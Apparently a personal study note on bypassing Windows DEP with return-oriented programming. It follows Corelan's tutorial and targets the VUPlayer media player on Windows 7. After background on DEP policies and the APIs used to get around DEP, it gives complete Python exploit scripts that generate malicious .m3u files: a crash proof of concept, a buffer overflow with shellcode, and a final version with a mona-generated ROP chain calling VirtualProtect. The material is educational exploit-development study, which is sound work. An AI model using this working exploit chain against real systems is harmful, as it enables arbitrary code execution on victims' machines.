





# Part3： Bypass DEP with ROP

## Get things setup
1. Win7 X86
2. [vulnerable software](https://www.exploit-db.com/apps/39adeb7fa4711cd1cac8702fb163ded5-vuplayersetup.exe)
3. Enable DEP(need to restart computer)


## Introduction to DEP
1. windows系统DEP policy及设置



```
bcdedit.exe /set nx OptIn
bcdedit.exe /set nx OptOut
bcdedit.exe /set nx AlwaysOn
bcdedit.exe /set nx AlwaysOff
```

2. 编译器的/NXCOMPAT选项表示程序期望enbale DEP, 如果此时系统设置为AlwaysOff，也无法enable DEP； 反之，如果程序disable DEP，但系统设置为Opt-Out/Always On, 程序也是受DEP保护的。

3. 程序最终的DEP Status有以下三种：

- Disable
- DEP
- DEP(permanent)


DEP(permanent) 我理解是以下两种情况之一导致的：

(1)程序本身link with /NXCOMPAT option，且系统当前DEP Policy允许enable DEP

(2)通过SetProcessDEPPolicy(PROCESS_DEP_ENABLE) enable了DEP


## Bypassing DEP
** Bellow are some reading notes of [Corelan's paper](https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/)**

These existing functions will provide us with the following options :
- execute commands (WinExec for example – classic "ret-to-libc")
- mark the page (stack for example) that contains your shellcode as executable (if that is allowed by the active DEP policy) and jump to it
- copy data into executable regions and jump to it. (We *may* have to allocate memory and mark the region as executable first)
- change the DEP settings for the current process before running shellcode


1. VirtualAlloc(MEM_COMMIT + PAGE_READWRITE_EXECUTE) + copy memory
```
functions for copy memory:
    memcpy()
    WriteProcessMemory()
```

2. HeapCreate(HEAP_CREATE_ENABLE_EXECUTE) + HeapAlloc() + copy memory

3. SetProcessDEPPolicy()
** has some limitaion when DEP status is "AlwaysOn/AlwaysOff/Permanent DEP", not very clear, just comments here. **

This function requires one parameter, and this parameter must be set to 0 to disable DEP for the current process.

4. NtSetInformationProcess()
** has some limitaion when DEP status is "AlwaysOn/AlwaysOff/Permanent DEP", not very clear, just comments here. **
This function will change the DEP policy for the current process so you can execute your shellcode from the stack.

```
NtSetInformationProcess(
   NtCurrentProcess(),    // (HANDLE)-1
   ProcessExecuteFlags,   // 0x22
   &ExecuteFlags,         // ptr to 0x2
   sizeof(ExecuteFlags)); // 0x4
```

5. VirtualProtect(PAGE_READ_WRITE_EXECUTE)

6. WriteProcessMemory()

This function will allow you to copy your shellcode to another (executable) location so you can jump to it & execute it. During the copy, WriteProcessMemory() will temporarily mark the location as writeable, you only have to make sure the target destination is executable.


- WPM Technique 1 : full WPM() call

After the copy, WriteProcessMemory() will mark the location as unwritable. If your shellcode prepends with a decoder, it will not work. Consider prepends with a call to virtualprotect or so, to mark the current region as writable / executable


- WPM Technique 2 : patch WPM() itself




```
stack pivot instructions:
add esp, offset + ret
mov esp, register + ret
xchg register,esp + ret
call register                         (if a register points to data you control)
mov reg,[ebp+0c] + call reg           (or other references to seh record)
push reg + pop esp + ret              (if you control ‘reg’)
mov reg, dword ptr fs:[0] + … + ret   (set esp indirectly, via SEH record)
```

## Build ROP Chain
In order to call windows API to change the access protection level, we need to pass a number of parameters to them, and these parameters need to sit at the top of the stack at the time the function gets called.

There are a few ways to do this:
- We can put the required values in registers and then issue a pushad (which will put everything on the stack in one time). 
- A second technique would be to put some of the parameters (the static ones/the ones without null bytes) on the stack already, and use some ROP gadgets to calculate the other parameters and write them onto the stack (using some kind of sniper technique).

ROP NOP: pointers which point to #RET


## Crash POC
```
import struct

buf_size = 3000

buf = 'A' * buf_size

print "[+] Creating .m3u file of size "+ str(len(buf))
 
file = open('vuplayer-dep.m3u','w');
file.write(buf);
file.close();
 
print "[+] Done creating the file"
```



## Data Execution Prevention
Use mona to customize our exploit.

```
> !py mona pattern_offset
> !py jmp -r esp
```

```
import struct

buf_size = 3000


junk = "A"*1012
eip = struct.pack("<L", 0x100222c5)

nops = "\x90" * 24
shellcode = "\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B"
shellcode += "\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9"
shellcode += "\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C"
shellcode += "\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0"
shellcode += "\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B"
shellcode += "\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72"
shellcode += "\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03"
shellcode += "\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47"
shellcode += "\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F"
shellcode += "\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72"
shellcode += "\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66"
shellcode += "\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14"
shellcode += "\x8E\x03\xD3\x52\x33\xFF\x57\x68\x61\x72"
shellcode += "\x79\x41\x68\x4C\x69\x62\x72\x68\x4C\x6F"
shellcode += "\x61\x64\x54\x53\xFF\xD2\x68\x33\x32\x01"
shellcode += "\x01\x66\x89\x7C\x24\x02\x68\x75\x73\x65"
shellcode += "\x72\x54\xFF\xD0\x68\x6F\x78\x41\x01\x8B"
shellcode += "\xDF\x88\x5C\x24\x03\x68\x61\x67\x65\x42"
shellcode += "\x68\x4D\x65\x73\x73\x54\x50\xFF\x54\x24"
shellcode += "\x2C\x57\x68\x4F\x5F\x6F\x21\x8B\xDC\x57"
shellcode += "\x53\x53\x57\xFF\xD0\x68\x65\x73\x73\x01"
shellcode += "\x8B\xDF\x88\x5C\x24\x03\x68\x50\x72\x6F"
shellcode += "\x63\x68\x45\x78\x69\x74\x54\xFF\x74\x24"
shellcode += "\x40\xFF\x54\x24\x40\x57\xFF\xD0";


exploit = junk + eip + nops + shellcode
fill = "\x43" * (buf_size - len(exploit))
buf = exploit + fill


 
print "[+] Creating .m3u file of size "+ str(len(buf))
 
file = open('vuplayer-dep.m3u','w');
file.write(buf);
file.close();
 
print "[+] Done creating the file"
```



## Make shellcode area executable
Here we are using [VirtualProtect function](https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualprotect) to change the memory protection option of the calling process. 

```
BOOL VirtualProtect(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);
```

What we're going to do is collect a bunch of existing assembly instructions that aren't marked as non-executable by DEP and chain them to call VirtualProtect to make the shellcode executable. Let's use mona to help us! 

```
we don't like '\x00' in our exploit
> mona.py rop -cpb '\x00'
```

```
def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x1001d892,  # POP EBP # RETN [BASS.dll] 
      0x1001d892,  # skip 4 bytes [BASS.dll]
      0x10015f77,  # POP EAX # RETN [BASS.dll] 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x10014db4,  # NEG EAX # RETN [BASS.dll] 
      0x10032f32,  # XCHG EAX,EBX # RETN 0x00 [BASS.dll] 
      0x10015f82,  # POP EAX # RETN [BASS.dll] 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x10014db4,  # NEG EAX # RETN [BASS.dll] 
      0x10038a6c,  # XCHG EAX,EDX # RETN [BASS.dll] 
      0x106040c0,  # POP ECX # RETN [BASSMIDI.dll] 
      0x1010892e,  # &Writable location [BASSWMA.dll]
      0x10603658,  # POP EDI # RETN [BASSMIDI.dll] 
      0x1001dc05,  # RETN (ROP NOP) [BASS.dll]
      0x10606b61,  # POP ESI # RETN [BASSMIDI.dll] 
      0x100177e4,  # JMP [EAX] [BASS.dll]
      0x10015f82,  # POP EAX # RETN [BASS.dll] 
      0x10040284,  # ptr to &VirtualProtect() [IAT BASS.dll]
      0x1001d7a5,  # PUSHAD # RETN [BASS.dll] 
      0x100222c5,  # ptr to 'jmp esp' [BASS.dll]
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
```


In Part1-StackOverflow, we want progress jump to esp, so we put a pointer that point to "jmp esp" into eip.

For now, we want progress jump to [esp], so we put a pointer that point to "RETN" into eip.
```
import struct

buf_size = 3000

def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      0x1001d892,  # POP EBP # RETN [BASS.dll] 
      0x1001d892,  # skip 4 bytes [BASS.dll]
      0x10015f77,  # POP EAX # RETN [BASS.dll] 
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x10014db4,  # NEG EAX # RETN [BASS.dll] 
      0x10032f32,  # XCHG EAX,EBX # RETN 0x00 [BASS.dll] 
      0x10015f82,  # POP EAX # RETN [BASS.dll] 
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x10014db4,  # NEG EAX # RETN [BASS.dll] 
      0x10038a6c,  # XCHG EAX,EDX # RETN [BASS.dll] 
      0x106040c0,  # POP ECX # RETN [BASSMIDI.dll] 
      0x1010892e,  # &Writable location [BASSWMA.dll]
      0x10603658,  # POP EDI # RETN [BASSMIDI.dll] 
      0x1001dc05,  # RETN (ROP NOP) [BASS.dll]
      0x10606b61,  # POP ESI # RETN [BASSMIDI.dll] 
      0x100177e4,  # JMP [EAX] [BASS.dll]
      0x10015f82,  # POP EAX # RETN [BASS.dll] 
      0x10040284,  # ptr to &VirtualProtect() [IAT BASS.dll]
      0x1001d7a5,  # PUSHAD # RETN [BASS.dll] 
      0x100222c5,  # ptr to 'jmp esp' [BASS.dll]
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)


junk = "A"*1012
eip = struct.pack("<L", 0x1001d893)  #ptr to 'RETN' in BASS.dll

rop_chain = create_rop_chain()
nops = "\x90" * 24
shellcode = "\xFC\x33\xD2\xB2\x30\x64\xFF\x32\x5A\x8B"
shellcode += "\x52\x0C\x8B\x52\x14\x8B\x72\x28\x33\xC9"
shellcode += "\xB1\x18\x33\xFF\x33\xC0\xAC\x3C\x61\x7C"
shellcode += "\x02\x2C\x20\xC1\xCF\x0D\x03\xF8\xE2\xF0"
shellcode += "\x81\xFF\x5B\xBC\x4A\x6A\x8B\x5A\x10\x8B"
shellcode += "\x12\x75\xDA\x8B\x53\x3C\x03\xD3\xFF\x72"
shellcode += "\x34\x8B\x52\x78\x03\xD3\x8B\x72\x20\x03"
shellcode += "\xF3\x33\xC9\x41\xAD\x03\xC3\x81\x38\x47"
shellcode += "\x65\x74\x50\x75\xF4\x81\x78\x04\x72\x6F"
shellcode += "\x63\x41\x75\xEB\x81\x78\x08\x64\x64\x72"
shellcode += "\x65\x75\xE2\x49\x8B\x72\x24\x03\xF3\x66"
shellcode += "\x8B\x0C\x4E\x8B\x72\x1C\x03\xF3\x8B\x14"
shellcode += "\x8E\x03\xD3\x52\x33\xFF\x57\x68\x61\x72"
shellcode += "\x79\x41\x68\x4C\x69\x62\x72\x68\x4C\x6F"
shellcode += "\x61\x64\x54\x53\xFF\xD2\x68\x33\x32\x01"
shellcode += "\x01\x66\x89\x7C\x24\x02\x68\x75\x73\x65"
shellcode += "\x72\x54\xFF\xD0\x68\x6F\x78\x41\x01\x8B"
shellcode += "\xDF\x88\x5C\x24\x03\x68\x61\x67\x65\x42"
shellcode += "\x68\x4D\x65\x73\x73\x54\x50\xFF\x54\x24"
shellcode += "\x2C\x57\x68\x4F\x5F\x6F\x21\x8B\xDC\x57"
shellcode += "\x53\x53\x57\xFF\xD0\x68\x65\x73\x73\x01"
shellcode += "\x8B\xDF\x88\x5C\x24\x03\x68\x50\x72\x6F"
shellcode += "\x63\x68\x45\x78\x69\x74\x54\xFF\x74\x24"
shellcode += "\x40\xFF\x54\x24\x40\x57\xFF\xD0";


exploit = junk + eip  + rop_chain + nops + shellcode
fill = "\x43" * (buf_size - len(exploit))
buf = exploit + fill

 
print "[+] Creating .m3u file of size "+ str(len(buf))
 
file = open('vuplayer-dep.m3u','w');
file.write(buf);
file.close();
 
print "[+] Done creating the file"
```

Exploit Success!



## Ref
1. https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/